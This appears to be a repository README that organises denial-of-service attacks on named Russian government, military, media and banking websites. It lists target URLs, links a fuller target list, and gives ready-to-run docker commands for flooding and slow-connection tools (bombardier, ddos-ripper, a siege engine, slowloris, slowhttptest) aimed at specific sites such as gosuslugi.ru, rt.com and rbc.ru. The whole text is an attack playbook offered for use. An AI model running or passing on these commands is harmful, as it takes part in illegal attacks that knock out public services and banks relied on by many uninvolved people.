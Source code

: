 # List of (some) public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/  
https://api.developer.sber.ru/product/SberbankID

# Propaganda

```
tvzvezda.ru  
echo.msk.ru  
rg.ru  
kp.ru  
rusvesna.su
```

# Banks

```
https://www.open.ru/
https://nsbank.ru/
https://www.lanta.ru/
https://www.akbars.ru/en/
https://www.bspb.ru/
https://realistbank.ru/
https://skbbank.ru/
https://bbr.ru/
https://domrfbank.ru/
https://kk.bank/
https://www.coalmetbank.ru/
https://bcs-bank.com/
https://www.raiffeisen.ru/
https://energotransbank.com/
https://www.uralsib.ru/
https://alfabank.ru/
https://mosoblbank.ru/
https://smpbank.ru/
https://sberbank.ru/
```

# Full list of targets

https://pastebin.com/JEuV9ftT

# Some examples to start with

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome python siege engine

```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tvzvezda.ru
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it aminvakil/slowloris [-h] [-u DOMAIN] [-s numberOfSockets]
```

# Another awesome similar to slowloris tool 

```
docker run --rm -it shekyan/slowhttptest:latest -c 1000 -X -g -o slow_read_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://rbc.ru -p 3 
```
